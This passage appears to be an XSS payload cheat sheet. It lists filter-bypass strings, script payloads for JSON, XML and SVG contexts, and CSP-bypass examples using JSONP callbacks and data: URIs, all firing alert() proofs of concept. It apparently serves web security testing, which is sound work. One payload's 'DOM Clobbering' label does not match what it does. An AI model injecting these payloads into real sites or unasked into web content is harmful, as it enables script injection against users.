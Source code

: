 # Filter Bypass Techniques

```html
<IMG SRC=`javascript:alert("XSS")`>
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">Click here</a>
%253Cscript%253Ealert('XSS')%253C%252Fscript%253E
```

# Payloads for Specific Contexts

# JSON Context

```json
{"key":"<script>alert('XSS')</script>"}
```

# XML Context

```xml
<foo><script>alert(1)</script></foo>
```

# SVG Context

```html
<svg><script>alert(1)</script></svg>
```

# Exploiting CSP Bypasses

# Exploiting CSP with JSONP

```html
<script src="https://trusted.com/resource?callback=alert(1)"></script>
```

# Exploiting CSP with DOM Clobbering

```html
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4="></object>
```

# Bypassing Input Sanitization

# Null Byte Injection

